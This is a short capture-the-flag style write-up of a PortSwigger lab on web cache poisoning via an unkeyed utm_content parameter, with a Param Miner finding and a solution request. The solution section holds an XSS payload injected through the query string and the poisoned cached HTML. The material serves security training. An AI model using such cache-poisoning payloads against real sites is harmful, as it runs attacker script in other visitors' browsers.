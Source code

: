 # [Lab: Web cache poisoning via an unkeyed query parameter](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-unkeyed-param)

## Lab

This lab is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. A user regularly visits this site's home page using Chrome.

To solve the lab, poison the cache with a response that executes `alert(1)` in the victim's browser.

## Analysis

param miner result:

```text
Web Cache Poisoning: Parameter Cloaking

Issue detail
The application can be manipulated into excluding the utm_content parameter from the cache key, by disguising it as utm_content.
```

## Solutions

cache poisoning:

```http
GET /?utm_content=hacked'><img+src%3d1+onerror%3d'alert()'>// HTTP/1.1
```

- cached:

  ```html
  <link rel="canonical" href='//id.web-security-academy.net/?utm_content=hacked'><img src=1 onerror='alert()'>//'/>
  ```
